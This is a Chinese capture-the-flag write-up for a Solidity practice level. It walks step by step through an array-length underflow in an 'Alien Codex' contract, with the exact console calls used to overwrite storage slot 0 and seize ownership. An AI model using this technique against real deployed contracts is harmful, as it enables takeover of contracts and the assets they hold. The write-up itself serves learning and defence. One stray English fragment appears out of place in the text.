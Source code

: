 ![查询slot存储](https://img-blog.csdnimg.cn/d547abd7ffa0402693283f193c4e791a.png#pic_center)
由于合约继承了`Ownable`合约，所以slot0中存储的就是`owner`对象，此时为`0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272`。实际上该地址就是创建目标合约的地址，如下图所示：

![ownable变量](https://img-blog.csdnimg.cn/f8e4ee3b16bf410db5849a2221160fc4.png#pic_center), the owner will still get their share
而存储的`contact`变量也是在`slot 0`中（一个插槽长度为32位，能够存放地址（20）+布尔型（1）），目前为0即为false。slot1存储的则是`codex`动态数组，更准确来说，应该是`codex`动态数组的长度，而具体的下标内容呢？会按序存储在`keccak256(bytes(1))+x`的插槽内，其中，x就是数组的下标。所以我们将插槽表示出来：

```
-----------------------------------------------------
| unused(11 bytes) |contact = false  |  0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272       | <- slot 0
-----------------------------------------------------
| codex length =0       | <- slot 1
-----------------------------------------------------
...
-----------------------------------------------------
| codex data[0]      | <- slot ??
-----------------------------------------------------
```
我们现在计算codex data的起始插槽，应该是`0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`

![计算起始数据插槽](https://img-blog.csdnimg.cn/8682de2425274d6fa54f489a7157b79a.png#pic_center)
我们先测试一下准确性。由于`contacted modifier`的存在，我们先修改`contact`变量。调用`await contact.make_contact()`，再次查看插槽数值，可以发现变量成功被修改。 
![成功修改contact变量](https://img-blog.csdnimg.cn/5a13e0877c754766af9960ac295fae4c.png#pic_center)
先存一个值看看，`await contract.record("0x000000000000000000000000000000000000000000000000000000000000aaaa")`测试一下。此时，插槽长度发生变化，同时存储数据也有所修改。

![测试](https://img-blog.csdnimg.cn/a88dc3e346c34022a59fff431a0d3d99.png#pic_center)
再存一个值看看，`await contract.record("0x000000000000000000000000000000000000000000000000000000000000bbbb")`测试一下。此时，插槽长度发生变化，同时存储数据也有所修改。

![成功](https://img-blog.csdnimg.cn/b1dc83710d0d43989f2f3eed7cc8ea30.png#pic_center)
现在我们就希望通过修改`codex`的`data`导致溢出最终修改slot 0。
首先我们连续调用三次`await contract.retract()`将`codex.length`下溢出为`2**256-1`。此时先前输入的数据均已丢失。

![修改codex.length](https://img-blog.csdnimg.cn/4ef0371e8eac429eb1e8654b62776189.png#pic_center)
那下标该是多少呢？应该是`2**256-1-0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6+1`。因为我们到达末端后需要再进一位产生上溢出，返回slot0。在计算的过程中我们遇到一个问题，那就是javascript会利用科学计数法，而这会导致精度的丢失。为了简便起见，我们用remix计算，结果是`35707666377435648211887908874984608119992236509074197713628505308453184860938`。

![使用remix辅助计算](https://img-blog.csdnimg.cn/b29b51706b7045a6967cf1e85148f795.png#pic_center)
那我们就用`await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938',player)`来调用，此时会覆盖原有slot。但一检查发现不对，结果跑前面去了。看来我们又要修改一下，不能直接传入`player`，需要传入`0x0000000000000000000000000bD590c9c9d88A64a15B4688c2B71C3ea39DBe1b`。

![在这里插入图片描述](https://img-blog.csdnimg.cn/fddd6ff9b9134283b4ec07c34eae0ac7.png#pic_center)
输入`await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938','0x0000000000000000000000000bD590c9c9d88A64a15B4688c2B71C3ea39DBe1b')`，此举是在地址前面补齐24个0,凑足24*4+40*4=256位即32bytes，从而将地址存入正确的存储位置。
![修改后重新发起](https://img-blog.csdnimg.cn/8e645e1ee0b54e02be7a9312c3036e33.png#pic_center#pic_center)
此时，合约所有者已经成功修改。
![成功修改](https://img-blog.csdnimg.cn/c2f39625a89e4941a930a49ac5906dcd.png#pic_center)
提交实例，本关卡成功！
![关卡成功](https://img-blog.csdnimg.cn/6ba9f1d4808849ec938dd3b88b0b5fc9.png#pic_center)
## 总结
在涉及到owner方面（或者其他重要变量）一定要慎重，寻找所有的可能性。
<hr>
